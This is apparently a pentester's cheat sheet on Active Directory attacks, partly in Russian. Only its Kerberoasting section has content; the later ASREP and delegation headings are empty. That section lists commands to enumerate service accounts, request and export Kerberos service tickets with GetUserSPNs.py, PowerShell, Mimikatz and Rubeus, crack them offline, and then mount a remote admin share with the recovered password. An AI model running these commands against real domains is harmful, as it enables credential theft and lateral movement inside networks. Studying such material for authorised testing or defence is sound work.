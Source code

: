## Kerberoasting (NEED CREDENTIALS!):  
1) GetUserSPNs.py domain.local/user:password - RECON SPNs  
2) GetUserSPNs.py -request -dc-ip 10.0.0.1 domain.com/username  
3) GetUserSPNs.py domain.local/user:password -dc-ip [DC IP] -request  
4) Windows: setspn -T DomainName -Q \*/\*  
    - загружаем билеты в память для дальнейних действий.  
            - Add-Type -AssemblyName System.IdentityModel  
            - New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSERVER/SQL-Server.testdomain.com:1433"  
            - Проверяем, что билет загружен в память: klist  
            - Invoke-Mimikatz –Command '" kerberos::list"' /export (модуль PowerSploit)  
              - Софт для перебора билета tgsrepcrack.py https://github.com/nidem/kerberoast  
            - После взлома пароля: net use \\WIN-4QHPFSI8002\c$ /user:SQLSVC Password1  
 5) Windows: Rubeus.exe kerberoast /outfile:hashes.txt  
 
Всех пользователей, у которых можно выгрузить TGS-билет, можно найти поисковым LDAP-фильтром: (&(samAccountType=805306368)(servicePrincipalName=*))

## ASREP Roasting:  


## Unconstrained Delegation:  


## Constrained Delegation:  


## Alternate Service Name:  


## 
